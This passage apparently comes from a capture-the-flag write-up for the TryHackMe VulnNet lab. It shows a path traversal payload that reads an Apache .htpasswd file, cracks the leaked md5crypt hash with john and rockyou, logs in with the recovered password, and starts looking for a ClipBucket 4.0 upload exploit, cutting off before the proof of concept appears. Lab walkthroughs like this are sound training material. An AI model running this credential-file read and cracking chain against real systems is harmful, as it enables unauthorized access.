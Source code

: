 
```
..//..//..//..//..//..///etc/apache2/.htpasswd
```

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250401161643.png)


We get the following credentials:

```
developers:$apr1$ntOz2ERF$Sd6FT8YVTValWjL7bJv0P0
```

Since this is in a hashed format, we need to crack it, for this, we can use john, let's store the hash in a file first:

```
echo 'developers:$apr1$ntOz2ERF$Sd6FT8YVTValWjL7bJv0P0' > hash.txt
```


We can then proceed to crack it:


```
john --format=md5crypt hash.txt --wordlist=/usr/share/wordlists/rockyou.txt

Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 128/128 AVX 4x3])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
9972761drmfsls   (developers)
1g 0:00:00:10 DONE (2025-04-01 21:20) 0.09267g/s 200292p/s 200292c/s 200292C/s 9982..99686420
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

There we go, we got our credentials:

```
developers:9972761drmfsls
```

With the credentials, we are now able to log into the `broadcast.vulnnet.thm` subdomain:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250401162216.png)


We are inside something called `ClipBucket`, let's search the version in the source code:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250401162351.png)

So, `ClipBucket 4.0`, let's search for an exploit:


![](CYBERSECURITY/IMAGES/Pasted%20image%2020250401162441.png)


There we go, we can upload files, if we check `exploit-db`, we can check the following PoC:
